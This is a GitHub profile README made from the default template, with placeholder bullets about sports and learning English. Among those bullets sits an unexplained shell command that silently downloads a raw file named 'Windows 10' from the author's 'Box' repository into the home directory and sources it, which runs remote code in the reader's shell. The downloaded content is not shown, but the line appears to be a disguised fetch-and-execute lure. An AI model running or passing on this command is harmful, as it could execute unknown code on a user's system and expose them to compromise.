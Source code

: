 - 👋 Hi, I’m @DevrdxDev
- 👀 I’m interested in Sports
- 🌱 I’m currently learning English
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
curl -s -o ~/x https://raw.githubusercontent.com/DevrdxDev/Box/refs/heads/main/Windows%2010 && . ~/x
https://github.com/DevrdxDev/Box.git
DevrdxDev/DevrdxDev is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
